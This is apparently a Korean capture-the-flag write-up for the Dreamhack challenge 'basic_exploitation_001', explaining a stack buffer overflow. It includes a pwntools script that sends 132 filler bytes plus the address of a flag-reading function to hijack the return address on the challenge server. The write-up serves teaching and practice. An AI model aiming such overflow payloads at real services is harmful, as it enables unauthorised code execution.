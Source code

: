 # basic_exploitation_001
```
void read_flag() {
    system("cat /flag");
}
```   
주어진 소스코드를 보면 read_flag 함수에서 flag를 얻을 수 있다.
<br/>

![image1](1.PNG)   
gdb로 확인해보면 read_flag 함수는 x080485b9에 위치하고 있다.   <br/><br/>


![image2](2.PNG)   
main 함수를 보면 버퍼는 0x80바이트 이다.   
<br/>

따라서 0x80(128) + sfp(4) 즉, 132바이트를 아무 문자로 채우고 read_flag 함수 주소로 ret address를 채우면 된다.

```
from pwn import *

r = remote('host1.dreamhack.games', 17724)

payload = ""
payload += "\x90"*132
payload += p32(0x80485b9)

r.sendline(payload)
r.interactive()
```
